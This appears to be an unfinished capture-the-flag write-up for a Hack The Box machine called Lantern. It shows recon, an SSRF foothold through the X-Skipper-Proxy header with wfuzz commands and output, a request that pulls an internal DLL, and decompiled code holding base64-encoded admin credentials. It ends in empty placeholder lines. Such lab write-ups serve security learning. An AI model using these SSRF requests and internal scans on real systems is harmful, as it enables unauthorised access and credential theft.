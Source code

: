 ## Linux Hard Machine Lantern

- [+] :	Target IP
   >>	10.129.235.127
   
   
## Recon

```nmap
|PORT|     |STATE| |SERVICE|
|22/tcp|   |open|  |ssh|
|80/tcp|  |open|  |http|
|3000/tcp| |open|  |ppp|
```

>> We can Post a pdf or whatever if we modify the name of the file as .pdf 

- [+] :	VHOST Enum 
   >>	0 subdomain

- [+] :	Code source recon
   >>	author = Devcrud

- [+] :	Webservers
   >>	port 80 webserver: Skipper Proxy (Vulnerable)
   >>	port 3000 webserver: kestrel

------------------------
## Foothold 
port 80 webserver is vulnerable to SSRF https://www.exploit-db.com/exploits/51111


Proof Of Concept:

1- Add header "X-Skipper-Proxy"  to your request
2- Add the aws metadata to the path (no need to do this for our scenario)

X.Skipper-Proxy: http://localhost:§payload_intruder§

or wfuzz it for more speed of response 
```bash
wfuzz --hc 503 -c -z file,"/usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt" -t 100  -H "X-Skipper-Proxy: http://localhost:FUZZ" http://lantern.htb/
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://lantern.htb/
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000000023:   500        1 L      3 W        22 Ch       "0022"         
000000081:   200        224 L    836 W      12049 Ch    "0080"         
000003001:   200        57 L     117 W      2854 Ch     "3000"         
000005001:   200        49 L     123 W      1669 Ch     "5000"         
000008001:   200        224 L    836 W      12049 Ch    "8000"  
```
so we can check it manually in burpsuite 

port 8000 and 80 seems to be our main lantern.htb page , port 3000 and 5000 and the .net core web app 

So Im thinking that i could read the dlls through the port 5000 , since its not exposed to the internet (in the scenario) so it the local port of the webapp

It must have some intersting dll that I could decompile 

We have a dll 
dirbusting the port 5000
wfuzz --hw 123 --hc 503 -c -z file,"/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt" -t 100  -H "X-Skipper-Proxy: http://localhost:5000" http://lantern.htb/FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://lantern.htb/FUZZ
Total requests: 81643

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================


Total time: 0
Processed Requests: 81643
Filtered Requests: 81643
Requests/sec.: 0


```burpsuite

GET /_framework/InternaLantern.dll HTTP/1.1
Host: lantern.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Skipper-Proxy:http://localhost:5000/
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
https://github.com/icsharpcode/ILSpy
ilspycmd InternaLantern.dll -o source_code

new Employee

                                                {

                                                        Uid = "POMBS",

                                                        Name = "Travis",

                                                        SecondName = "Duarte",

                                                        BirthDay = new DateTime(1999, 7, 23).ToShortDateString(),

                                                        JoinDate = new DateTime(2024, 1, 21).ToShortDateString(),

                                                        Salary = 90000,

                                                        InternalInfo = Encoding.UTF8.GetString(Convert.FromBase64String("U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE="))

                                                }
                                                
                                                
                                                



when decompiled we can extract a base64 secret

- [+] :	
   >>	
   

- [+] :	Target IP
   >>	
   

- [+] :	Target IP
   >>	
   

- [+] :	Target IP
   >>	
   

- [+] :	Target IP
   >>	
   

